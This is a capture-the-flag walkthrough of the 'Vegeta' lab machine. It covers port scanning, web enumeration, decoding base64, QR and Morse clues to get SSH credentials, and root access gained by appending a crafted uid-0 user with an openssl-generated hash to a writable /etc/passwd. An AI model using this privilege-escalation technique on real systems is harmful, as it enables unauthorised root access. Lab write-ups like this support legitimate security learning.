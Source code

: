 ```yaml
---
categories: [Proving Grounds Play]
tags: [cryptography, PrivEsc]
image:
  path: /Vulnhub-Files/img/Vegeta/front.jpg
  alt: Vegeta Proving Grounds Play Machine 🔥
---
```


### Let’s find the IP Address first >>

![Arp Scan Results That will Tell the IP Address](/Vulnhub-Files/img/Vegeta/Untitled.png)

```bash
IP : 10.0.2.56
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegita]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:57 IST
Nmap scan report for 10.0.2.56
Host is up (0.00050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
|_  256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:98:50:DA (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%201.png)

Lets see the Directory Traversal files —>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%202.png)

Lets got to this file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%203.png)

Lets decode this base64 encoded in readable form →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%204.png)

Now lets see this data.png file and decode it further since it is qrcode so →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%205.png)

Now I got a string → `Password : topshellv` →

But on further enumeration I find this password as a rabbit hole so lets dig in further through directory traversal with rockyou.txt file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%206.png)

Now I got a directory named as `/bulma/` →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%207.png)

Now I got a audio file so lets decode it with morse code decoder →

[https://morsecode.world/international/decoder/audio-decoder-adaptive.html](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%208.png)

From decoder I got the credentials →

```bash
U S E R : T R U N K S  
P A S S W O R D : U $ 3 R
```

Now lets dig into the ssh shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegeta]
└─$ ssh trunks@10.0.2.56
trunks@10.0.2.56s password: 
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 28 21:16:00 2020 from 192.168.43.72
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$
```

Now lets the file permissions →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%209.png)

Since this file can be modifed as trunks too so lets go and add a new user with root privileges →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

```bash
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
trunks@Vegeta:~$ nano /etc/passwd
trunks@Vegeta:~$ su shiv
Password: 
root@Vegeta:/home/trunks# whoami
root
root@Vegeta:/home/trunks# cd ~
root@Vegeta:~# ls -al
total 32
drwx------  3 root root 4096 Jun 28  2020 .
drwxr-xr-x 18 root root 4096 Jun 28  2020 ..
-rw-------  1 root root  186 Jun 28  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Jun 28  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1379 Jun 28  2020 root.txt
-rw-------  1 root root 1827 Jun 28  2020 .viminfo
root@Vegeta:~# cat root.txt

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |'

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw

root@Vegeta:~#
```